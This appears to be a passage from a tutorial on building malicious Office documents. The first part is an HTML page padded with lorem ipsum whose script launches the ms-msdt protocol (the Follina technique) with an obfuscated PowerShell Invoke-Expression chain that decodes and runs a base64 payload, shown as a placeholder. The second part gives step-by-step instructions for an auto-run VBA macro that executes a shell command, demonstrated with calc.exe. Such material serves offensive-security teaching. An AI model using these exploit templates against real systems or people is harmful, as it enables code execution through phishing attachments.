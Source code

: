 ```
Proin a interdum justo. Duis sed dui vitae ex molestie egestas et tincidunt neque. Fusce lectus tellus, pharetra id ex at, consectetur hendrerit nibh. Nulla sit amet commodo risus. Nulla sed dapibus ante, sit amet fringilla dui. Nunc lectus mauris, porttitor quis eleifend nec, suscipit sit amet massa. Vivamus in lectus erat. Nulla facilisi. Vivamus sed massa quis arcu egestas vehicula. Nulla massa lorem, tincidunt sed feugiat quis, faucibus a risus. Sed viverra turpis sit amet metus iaculis finibus.

Morbi convallis fringilla tortor, at consequat purus vulputate sit amet. Morbi a ultricies risus, id maximus purus. Fusce aliquet tortor id ante ornare, non auctor tortor luctus. Quisque laoreet, sem id porttitor eleifend, eros eros suscipit lectus, id facilisis lorem lorem nec nibh. Nullam venenatis ornare ornare. Donec varius ex ac faucibus condimentum. Aenean ultricies vitae mauris cursus ornare. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas aliquet felis vel nulla auctor, ac tempor mi mattis. Nam accumsan nisi vulputate, vestibulum nisl at, gravida erat. Nam diam metus, tempor id sapien eu, porta luctus felis. Aliquam luctus vitae tortor quis consectetur. In rutrum neque sit amet fermentum rutrum. Sed a velit at metus pretium tincidunt tristique eget nibh. In ultricies, est ut varius pulvinar, magna purus tristique arcu, et laoreet purus elit ac lectus. Ut venenatis tempus magna, non varius augue consectetur ut.

Etiam elit risus, ullamcorper cursus nisl at, ultrices aliquet turpis. Maecenas vitae odio non dolor venenatis varius eu ac sem. Phasellus id tortor tellus. Ut vehicula, justo ac porta facilisis, mi sapien efficitur ipsum, sit fusce.
</p>
<script>
    location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'Unicode.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'<base64 payload>'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\"";
</script>

</body>
</html>
```

# VBA Macro

In malware wild, macro malware is typically transmitted through phishing emails that contain malicious attachments. When the macros run, malware coded into the VBA will begin to infect all files that are opened using Microsoft Office. In our case, we will only execute a calc.exe app.

First, open Microsoft Office and then Press `Alt` + `F11` on your keyboard. The action will bring us to Macro Editor.
![image](https://user-images.githubusercontent.com/56353946/203387945-2cd55bd1-8227-4d1c-b1c1-154009b0d511.png)

On "Project (Document1)" path, click `ThisDocument`:
![image](https://user-images.githubusercontent.com/56353946/203388151-40943f11-58ed-4339-9e42-c64c2a56c47b.png)

Write our malicious macro code, for example:
```
Private Sub Document_Open()
Test
End Sub

Private Sub Test()
Shell ("cmd /c calc.exe")
End Sub
```
Save the document as `.doc` or `.docm` and run it!
